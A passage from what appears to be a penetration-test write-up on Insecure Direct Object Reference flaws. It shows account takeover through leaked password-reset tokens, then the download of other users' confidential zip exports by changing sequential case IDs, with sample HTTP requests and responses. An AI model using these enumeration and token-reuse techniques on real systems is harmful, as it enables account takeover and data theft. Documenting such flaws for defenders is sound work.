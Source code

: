 Now we have the `pwResetToken` value, which could be used to reset the user's password using the below forgot password endpoint.

```
https://<REDACTED>/users/forgotpw?token=<PASSWORD_RESET_TOKEN>
```

### Impact: 

This vulnerability, rooted in an Insecure Direct Object Reference (IDOR) weakness, had far-reaching consequences. By exploiting this flaw during the test, we were able to gain unauthorised access to "forgot password" reset tokens via a straightforward manipulation of usernames. From here, it was trivial to achieve account takeovers that not only compromised user accounts but also placed sensitive associated data at risk. Such an incident would have grave consequences for the affected users, including potential data breaches, identity theft, and a profound erosion of trust in the compromised system or service
## Case Study 2: Downloading Confidential Zip Archive

Another real-world case of IDOR was discovered within an organisation's management portal where admins can generate zip archives which can be further downloaded by other users using the zip archive's case id. The issue at hand revolves around the fact that these case IDs are simply sequential integers, enabling anyone to access other users' archives by incrementing or decrementing the value of case IDs.

We observed the below GET endpoint to download the zip archive export of cases:  
`/api/export/download/<CASE ID>`

It was possible to change the `<CASE_ID>` to any arbitrary case ID in order to download its export zip archive.

**Request:**

```http
GET /api/exports/zip/download/<CASE_ID> HTTP/2
Host: <REDACTED>
﻿﻿Cookie: <REDACTED>
﻿﻿Referer: <REDACTED>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; X64) AppleWebKit/537.36  
(KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept-Encoding: gzip, deflate
﻿﻿﻿Accept-Language: en-GB, en-US; q=0.9, en; q=0.8
```

**Response:**

```http
HTTP/2 200 OK
Date: Thu, 08 Jun 2023 12:58:42 GMT
﻿﻿Content-Type: application/zip
﻿﻿Content-Length: 769
Content-Disposition: inline; filename=new-test-case.zip
Cache-Control: no-cache, private
﻿﻿Access-Control-Allow-Origin: *
﻿﻿﻿X-Frame-Options: SAMEORIGIN
﻿﻿﻿X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15724800; includeSubDomains

PK
eEVdefault/PKPK
\..SNIP..\
```
